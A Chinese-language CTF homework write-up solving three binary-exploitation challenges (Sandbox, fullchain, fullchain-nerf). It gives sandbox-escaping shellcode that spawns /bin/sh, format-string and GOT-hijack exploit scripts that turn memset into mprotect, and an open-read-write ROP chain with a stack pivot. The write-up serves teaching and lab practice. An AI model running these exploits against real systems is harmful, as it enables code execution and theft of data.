



# 0x04 Pwn

## Homework - Sandbox

### Recon

從這題字面上的意思，大概可以猜到是要逃脫 Sandbox 的檢查 or 限制達到完整 RCE。簡單看一下這個 Sandbox 的實作方法，使用者可以提供任意 assembly 給伺服器去執行，但 sandbox 限制了 `syscall` instruction 的使用，以及呼叫 register 中存放的 function ptr。

```c++
// 檢查 syscall instruction
// 如果發現 syscall 的話，將其替換成 syscall_monitor
if (!memcmp(shellcode+sc_idx, syscall_pattern, sizeof(syscall_pattern)-1)) {
    jmp_func(new_code_buf, &new_code_idx, (unsigned long) syscall_monitor);
    sc_idx += sizeof(syscall_pattern)-1;
    continue;
}

// 檢查 call reg
int i = 0;
for (; i < REG_CNT; i++) {
    if (!memcmp(shellcode+sc_idx, call_reg_patterns[i], strlen(call_reg_patterns[i]))) {
        jmp_func(new_code_buf, &new_code_idx, (unsigned long) call_reg_monitor);
        sc_idx += strlen(call_reg_patterns[i]);
        break;
    }
}
```

這種簡單的靜態檢查方法最大的問題有兩個。第一個是沒辦法預知執行時的行為，如果可以邊執行邊解碼接下來的執行邏輯的話就可以避掉檢查；第二個是這是以「黑名單」邏輯的限制，以 call reg 限制為例，看起來是想限制呼叫沙盒外部程式碼的行為，但從 amd64 的 manual 上可以看到，`call` 這個指令是可以呼叫存放在記憶中的 ptr 的（`r/m64`），所以只要把 function ptr 放到 stack 中就可以呼叫了。

觀察到這邊，最終目標是想辦法透過 `mprotect` 把 `new_call_buf` 這段 memory 重新開成 RWX，接著就可以做任何想做的事情了。

### Pwn

總之，達成步驟如下：

1. 把 Shellcode 中所有 `syscall` 的 opcode 減一規避靜態檢查（`b"\x0E\x05"`）
2. 透過故意的 syscall instruction，讓 new_call_buf 中被放入 `syscall_monitor`，進而從裡面的 `exit` 計算出 `mprotect` 的 plt 位置
   
3. 呼叫 `mprotect` 讓記憶體區段權限改成 RWX
4. 在每次呼叫 `syscall` 前透過 `inc BYTE PTR [rip]` 把 opcode 改成正確的數值
5. 執行 `execve` system call，取得 shell

所以最終 Shellcode 就長這樣囉：

```asm
call $+5                    ;\xe8\x00\x00\x00\x00
push QWORD PTR [rip + 9]
mov rax, 40
syscall
pop r8
pop rdi
sub rdi, 0x19
mov rsi, 0x1000
mov rdx, 0x7
sub r8, 265
push r8
call QWORD PTR [rsp]

; push /bin/sh onto the stack
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
push 0x59
pop rax
; b"\x0E\x05", syscall
```

### 非預期解？

在 sandbox 實作的 epilogue 中，有呼叫 exit 的 syscall，所以其實可以 `jmp` 過去直接 get shell XD

## Homework - fullchain

### Recon

先看一下程式本身的防禦機制：

```shell
root@c4af886ff823 /# checksec /tmp/code/HW-fullchain/fullchain/share/fullchain
[*] '/tmp/code/HW-fullchain/fullchain/share/fullchain'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
root@c4af886ff823 /# cat /tmp/code/HW-fullchain/fullchain/share/Makefile
all:
  gcc -g -fstack-protector-all -z lazy -o fullchain fullchain.c -lseccomp
root@c4af886ff823 /#
```

NX、PIE 都有開，Partial RELRO 代表可以 Hijack GOT，fstack-protector-all 代表有 canary，以及 cnt 在 stack 中的位置會放在 local 上面（記憶體位置比較小的地方）

程式碼邏輯還滿簡單的，但可以找到幾個「可能」可以被利用的弱點，以及因為前幾個弱點而變得可利用的片段。首先第一個是在 `mywrite` 中的 Format String 漏洞，使用者可以控制一段長度最多為 24 個字元的字串達成攻擊：

```c++
void mywrite(char *addr)
{
    printf(addr);
}
```

第二個是在 `myread` 中的 Buffer Overflow 弱點，可以寫超過其他長度為 0x10 的 buffer：

```c++
void myread(char *addr)
{
    scanf("%24s", addr);
}
```

當然，這隻程式也有三個簡單的防禦。第一個是透過 Linux Kernel 中的 `seccomp` 去限制程式可以呼叫的 syscall 種類，當然大家最想要的 execve 被 ban 掉了，但卻保留了其他危險的 syscall 如 `mprotect`：

```c++
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(close), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(mprotect), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(brk), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(mmap), 0);
```

第二個是 main 中滿簡單的防禦方法，透過在 main 結尾時使用一段故意的 buffer overflow，把整個 main 以外的 stack 抹的乾乾淨淨，讓 `__libc_start_main` 的位置沒辦法被拿來 leak libc 的 base address：

```c++
int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);
    setup_seccomp();
    char buf[0x10];
    memset(buf, 0, 0x1000);
    chal();
}
```

最後一個是所有 Main 跟 Chal Function 都沒有 return function，取而代之的是用 `exit` 結束程式，即使有 Format String Vulnerability 也很難用 ROP Chain 達到讀取 Flag 檔案的目的。

看到這邊，我們的目標其實跟 Sandbox 的目標沒有多大的差別，都是希望透過一些簡單的弱點，進而組合成可以隨意寫入程式碼的 RCE，唯一的差別只是現在一開始的 attack surface 非常小，不像 sandbox 一開始就給 execute 的功能，Fullchain 需要做更多事情才可以把弱點串成 RCE 漏洞。

### Pwn

總結一下解題步驟：

1. 因為程式預期的行為是只能給使用者輸入三次，必須要想辦法修改 `cnt` 的值，讓攻擊者可以執行更多動作
2. 擴大輸入次數後需要 Leak libc 的基值，才可以執行任意 libc 的 function
3. `myset` 可以讓使用者輸入第二個以及第三個參數，但是 `c` 卻是用一個 4 byte 的 `int` 儲存，這讓 `memset` 完全可以被拿來當作 `mprotect` 來呼叫。所以第三個目標是 Hijack `memset` 的 GOT 成 `mprotect` 的位置
4. 得到一段權限為 RWX 的記憶體區段。因為 `chal` 和 `myread` 的邏輯，更改 `global` 變數所在的記憶體區段成 RWX 後可以讓等等寫入 shellcode 的實作成本最低，所以我最後選擇改變 `global` 所在的記憶體區段權限成 RWX
5. 把 `/home/fullchain/flag` 字串寫進記憶體（位置我設定成 `global + 0x38`），以及字串位置寫到 `global + 0x30`
6. Hijack `exit` 的 GOT 成呼叫 `global` 所在的位置，等等只要故意觸發 `exit` 就可以執行塞入的 Shellcode 了
7. 把 open, read, write 的 shellcode 分別寫入 `global` 後觸發 `exit` 執行

#### 擴大 cnt 執行次數

一開始的執行次數 3 實在太少了，沒辦法透過 format string vuln + `global` 變數達到寫入任意數值的目的（leak cnt address + 寫入總共需要 4 個 try）。但幸運的是，可以透過 format string vuln + `local` 的方法輸入 3 次，暫時將 cnt 設成 5：

```c++
while (cnt--)
    {
        printf("global or local > ");
        scanf("%10s", local);

        // ...

        printf("set, read or write > ");
        scanf("%10s", local);

        // ...
        
        else if (!strncmp("write", local, 5))
            mywrite(ptr);

        // ...
    }
}
```

這邊可以看到，實際上輸入 command 的時候是可以輸入 10 個字元的，而 `strncmp` 又不會因為多輸入而比較錯誤，所以我們只要透過以下三個 Payload，就可以達成把 cnt 覆蓋成 5 的目的：

```python
# def send_cmd2srv(buf: str, cmd: str, payload: bytes = b"")

send_cmd2srv("local", f"write%7$lx")                      # 透過 leak ptr 的位置計算出 cnt 的位置
send_cmd2srv("local", "read", b"_"*16 + p64(ADDR_CNT))    # 透過 scanf 的 buffer overflow 把 cnt 位置寫到 stack 上
send_cmd2srv("local", "write%16$n")                       # Format String Vuln 寫入 5 的數值
```

擴大到 5 的次數後我們就可以完整的使用 Format String Vuln 把 cnt 擴大成更大的數字。因為不知道需要幾次才夠，這邊就簡單的弄成 `0x2000`：

```python
# def set_addr_on_stack(addr1: int)

def frt_write_value2addr(addr: int, value: int):
    # Write 4 byte a time
    bits = [ 
        value & 0xFFFF, 
        (value >> 16) & 0xFFFF,
        (value >> 32) & 0xFFFF,
        (value >> 48) & 0xFFFF,
    ]

    for i in range(4):
        if bits[i] == 0:
            continue
        # Setup Addr in Memory
        set_addr_on_stack(addr+i*2)
        
        # Prepare Format String
        payload = f"%{bits[i]}c%16$hn\n"

        # Write to Global
        send_cmd2srv("global", "read", payload.encode())
        send_cmd2srv("global", "write")   

frt_write_value2addr(ADDR_CNT, 0x2000)
```

#### 洩漏 Libc Base Address

因為 `__libc_start_main` 被抹掉了，所以不能像 fullchain-nerf 一樣直接用 format string vuln leak 出 `__libc_start_main` 的位置後直接計算 libc 的基值。但好在的是 PIE 的基值是沒有被抹掉的，我們可以透過 `__libc_csu_init` 算出 PIE 的 BASE 後，接著算出 got 位置，讀取其中的值後算出 libc 的基值：

```python
# 取得 PIE Base
send_cmd2srv("local", f"write%8$lx")
BASE_PIE = int(r.recv(17)[5:].decode(), 16) - 0x1800

# 取得 Printf GOT 的位置
ADDR_PRINTF_GOT = BASE_PIE + 0x116b + 0x2edd
set_addr_on_stack(ADDR_PRINTF_GOT)
send_cmd2srv("local", "write%16$s")
BASE_LIBC = u64(r.recv(11)[5:]+b"\x00"*2) - 0x64e10  # 0x25000, libc start position
```

這其實不一定每次都會成功，因為我使用的是 `"%s"` 去印出記憶體位置，如果記憶體位置中前六個 byte 有 `0x00` 出現的話，就沒辦法 Leak 出完整的記憶體位置。選了一陣子後發現 `printf` 的位置裡面最不會出現 `0x00` 的問題，所以我最後是選用 `printf` 來 leak libc 的 base address。

#### Hijack Memset 2 Mprotect

我們的目標是執行 `mprotect`，但現在並沒有一個可控的位置可以讓我們簡單的呼叫 `mprotect` syscall 達成修改 memory permission，所以需要一個程式中本來就有的塞入三個 parameters 執行 function 的地方。觀察一下 `myset` 的實作：

```c++
void myset(char *addr)
{
    int c;
    size_t len;

    printf("data > ");
    scanf("%d", &c);
    printf("length > ");
    scanf("%lu", &len);

    if (len > 0x10) {
        puts("Too more");
        return;
    }
    memset(addr, c, len);
}
```

`memset` 吃了三個參數，其中兩個還是使用者可控，檢查限制還剛好符合我們需要的數字（`len` 是放 permission 的位置，但 `0x7` 就可以 RWX 了），所以下一個目標就是 Hijack `memset` 的 got 成 `mprotect` 的位置後，再觸發 `myset` 就可以呼叫 `mprotect` 了：

```python
ADDR_MPROTECT = BASE_LIBC + 0x11bb00
ADDR_MEMSET_GOT = BASE_PIE + 0x118b + 0x2ecd
frt_write_value2addr(ADDR_MEMSET_GOT, ADDR_MPROTECT)
```

#### 修改 Global 所在的 Page Mem Permission

根據 [mprotect(2) — Linux manual page](https://man7.org/linux/man-pages/man2/mprotect.2.html) 上提到：

> mprotect() changes the access protections for the calling
> process's memory pages containing any part of the address range
> in the interval [addr, addr+len-1]. **addr must be aligned to a
> page boundary.**

我們除了要拿到 `global` 的位置外，還要藉著這個記憶體位置算出整個 page 的起始位置：

```python
send_cmd2srv("global", "read", "%7$lx\n")
send_cmd2srv("global", "write")
ADDR_GLOBAL_VAR = int(r.recv(12).decode(), 16)
```

但這裡有兩個問題。第一個是，`myset` 中的 addr 來源在一般狀況下只能是 `local` 或 `global`，如果用一般 `frt_write_value2addr` 把整個 page addr 寫進 ptr，因為次數的緣故每次寫入 ptr 會被蓋掉，我們想要的效果就會消失。剛剛好有個特製的 Payload 可以暫時把 `ptr` 改成 page 的 addr：

```python
# 因為只需要寫一個 2 byte 的 Payload 所以整個流程只要寫一次而已
frt_write_value2addr(ADDR_CNT+0x4, (ADDR_GLOBAL_VAR & 0xFFFF) - 0xb0)
```

第二個是要讓下一次的 Payload 都不要觸發 `ptr` 的修改。正常來說如果第一個 input 不是輸入 `local` 或 `global` 的話，會直接呼叫 `exit` 結束程式。剛好我們可以修改 `exit` 的 got，我們可以先暫時把 `exit` 指向一個 `ret` 的指令，讓 `exit` 變成一個空 function：

```python
ADDR_EXIT_GOT = BASE_PIE + 0x11bb + 0x2eb5
ADDR_MYSET_RET = BASE_PIE + 0x1531
frt_write_value2addr(ADDR_EXIT_GOT, ADDR_MYSET_RET)
```

接下來呼叫 `myset` 就可以執行 `mprotect` 了：

```python
# send_cmd2srv 遇到 set 會送出 0x1000, 0x7
send_cmd2srv("ggg", "set")
```

#### 寫入檔名到記憶體中

在實際放入 Shell Code 前，我們還需要把 flag 檔名寫道記憶體上。當然，可以在 Shellcode 中把字串數值 push 到 stack 中，但還要思考怎麼寫才不會出現 `0x00` 和 `0x20`（因為 `scanf` 的緣故），所以我透過剛剛處理 ptr 的方法，把字串以及字串位置分別寫到 `global+0x38` 和 `global+0x30`，減少出錯的機率：

```python
frt_write_value2addr(ADDR_CNT+0x4, (ADDR_GLOBAL_VAR & 0xFFFF) + 0x38)
send_cmd2srv("ggg", "read", FLAG_PATH.encode()+b"\n")
frt_write_value2addr(ADDR_GLOBAL_VAR+0x30, ADDR_GLOBAL_VAR+0x38)
```

#### 修改 Exit got 位置

現在可以把 `exit` got 修改成 `global` 變數的位置了：

```python
frt_write_value2addr(ADDR_EXIT_GOT, ADDR_GLOBAL_VAR)
```

#### 送入 open, read, write 的 shellcode 並執行

因為 `execve` 被 ban 掉的緣故，這邊就用 `open`, `read`, `write` 來讀取 Flag 數值囉！

```python
# Open Flag File
# All Shell code is free of 0x00 & 0x20, length of 19 bytes
OpenShellCode = """
  push QWORD PTR [rip+0x2a]
  pop rdi
  push 0x02
  pop rax
  xor rsi, rsi
  xor rdx, rdx
  syscall
  ret
"""
send_cmd2srv("global", "read", asm(OpenShellCode)+b"\n")
send_cmd2srv("local", "ggg")

# Read Flag
ReadShellCode = """
  push QWORD PTR [rip+0x2a]
  pop rsi
  xor rax, rax
  push 3
  pop rdi
  push 0x40
  pop rdx
  syscall
  ret
"""
send_cmd2srv("global", "read", asm(ReadShellCode)+b"\n")
send_cmd2srv("local", "ggg")

WriteShellCode = """
  push QWORD PTR [rip+0x2a]
  pop rsi
  push 1
  pop rax
  push 1
  pop rdi
  push 0x40
  pop rdx
  syscall
  ret
"""

send_cmd2srv("global", "read", asm(WriteShellCode)+b"\n")
send_cmd2srv("local", "ggg")
```

### 最終結果



當然，因為 `scanf` 的緣故，也有可能發生以下的狀況而失敗：



## Homework - fullchain-nerf

這題算是上ㄧ題的弱化版，沒有抹掉 `__libc_start_main`、沒有 Canary、cnt 在 `local` 下面、有個用 `read` 寫 `0x60` 長度的 Buffer Overflow、全部 Function 都是正常 Return，再加上那個赤裸裸的 format string vuln 可以讀寫任意地方，ROP Chain 是個可行的選項。另一個使用 ROP Chain 的原因，是因為這題沒有像 fullchain 中的 `myset` 可以拿來變成 `mprotect` 的 trigger，所以剩下可以執行任意程式碼的選項就剩 ROP 了。

### Pwn

解題步驟如下：

1. 透過每次 Overflow 的時候順便複寫 `cnt` 的數值
2. 透過 Format String Vuln 得到所需要的記憶體位置
3. 建構出 `open`, `read`, `write` 的 ROP Chain
4. Stack pivoting 到 RopChain 的位置，觸發執行

#### 取得記憶體位置

總共需要三個記憶體位置，`PIE_BASE`、`LIBC_BASE`、`GLOBAL_VAR_ADDR`，因為 Stack 中的數值的相對位置並不會因為每次執行而不同，所以可以透過以下的 payload 一次 leak 出來：

```python
payload = b"%17$lx|%19$lx|%7$lx\n"

send_cmd2srv("global", "read", payload)
send_cmd2srv("global", "write")

tmp = r.recvline().split(b"|")

PIE_BASE = int(tmp[0].decode(), 16) - 100 - 0x15fd
LIBC_BASE = int(tmp[1].decode(), 16) - 243 - 0x26fc0
GLOBAL_VAR_ADDR = int(tmp[2].decode(), 16)
```

#### 創建 ROP Chain

這裡就比較一般了，透過 `ROPgadget` 從 libc 中搜出需要的 Gadgets 後串成 `open`, `read`, `write`：

```python
# ROP Gadgets
POP_RDX_RBX = LIBC_BASE + 0x162866
POP_RDI = LIBC_BASE + 0x26b72
POP_RAX = LIBC_BASE + 0x4a550
POP_RSI = LIBC_BASE + 0x27529
SYSCALL_RET = LIBC_BASE + 0x66229
STACK_PIVOT_RET = LIBC_BASE + 0x5aa48
FINAL_STACK_PIVOT = GLOBAL_VAR_POS + 0x50

rops = [
    FINAL_STACK_PIVOT,
    # OPEN
    POP_RAX, 2,
    POP_RDI, GLOBAL_VAR_POS,
    POP_RSI, 0,
    POP_RDX_RBX, 0, 0,
    SYSCALL_RET,

    # READ
    POP_RAX, 0,
    POP_RDI, 3,
    POP_RSI, GLOBAL_VAR_POS,
    POP_RDX_RBX, FLAG_LENGTH, 0,
    SYSCALL_RET,

    # Write
    POP_RAX, 1,
    POP_RDI, 1,
    POP_RSI, GLOBAL_VAR_POS,
    POP_RDX_RBX, FLAG_LENGTH, 0,
    SYSCALL_RET
]
```

接著透過 Format String 的 Vuln 就可以一路順順的從 `global + 0x50` 的位置開始往下寫，當作接下來的 Stack 使用：

```python
for i in range(len(rops)):
    format_str_write_addr(FINAL_STACK_PIVOT + i * 8, rops[i])
```

#### Stack Pivoting and Invoking the Chain

因為這題的 Overflow 太好操控了，所以以下這個 Payload 就可以一次把需要的 Gadgets 寫到 Return 的位置後執行：

```python
payload = flat(
    0, 0, 0, 0)
payload += p32(0) + p32(0x1)  # cnt set to 1
payload += flat(
    0,
    FINAL_STACK_PIVOT,
    STACK_PIVOT_RET
)
send_cmd2srv("local", "read", payload)
send_cmd2srv("global", "read", (FLAG_PATH+"\0").encode())
```

#### 執行結果

我的解題順序其實是先寫 `fullchain-nerf` 才去解 `fullchain`，所以才會跟 fullchain 那邊的解法有滿多差異，Code 也比較沒有邏輯 XD
